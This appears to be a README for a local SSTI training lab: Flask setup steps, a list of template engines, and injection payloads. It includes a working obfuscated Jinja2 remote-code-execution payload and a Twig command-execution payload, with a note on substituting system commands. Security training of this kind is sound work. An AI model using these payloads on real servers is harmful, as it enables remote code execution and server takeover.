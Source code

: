 # Requirements:

* apt-get install python
* apt-get install python-pip
* pip install flask
* pip install jinja2

# Steps:
* Download lab file 
* export FLASK_APP=ssti-lab.py
* flask run
* http://127.0.0.1:5000

# Original Blog:
https://portswigger.net/research/server-side-template-injection

# Web Template Engines:

* FreeMarker - Java-based template engine
* Velocity - Java-based template engine
* Smarty - PHP Template engine
* Twig - PHP Template engine
* Jade - Node.js Template engine
* Jinja2 - Python/Flask Template engine

# Basic Payload:

* `{{7*7}}`
* `{{7*'7'}}`

# RCE PAYLOAD - JINJA2:
`{{5096754695}}{{''}}{%+set+d+=+"eval(__import__('base64').urlsafe_b64decode('X19pbXBvcnRfXygnb3MnKS5wb3BlbihfX2ltcG9ydF9fKCdiYXNlNjQnKS51cmxzYWZlX2I2NGRlY29kZSgnZFc1aGJXVWdMV0U9JykuZGVjb2RlKCkpLnJlYWQoKQ=='))"+%}{%+for+c+in+[].__class__.__base__.__subclasses__()+%}+{%+if+c.__name__+==+'catch_warnings'+%}
{%+for+b+in+c.__init__.__globals__.values()+%}+{%+if+b.__class__+==+{}.__class__+%}
{%+if+'eval'+in+b.keys()+%}
{{+b['eval'](d)+}}
{%+endif+%}+{%+endif+%}+{%+endfor+%}
{%+endif+%}+{%+endfor+%}{{''}}{{9776394213}}`

Note: Decode decode base64 string to to place system commands

# RCE PAYLOAD - TWIG:
`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}`

# Automation tool for SSTI exploitation:
[TPLMap](https://github.com/epinna/tplmap)
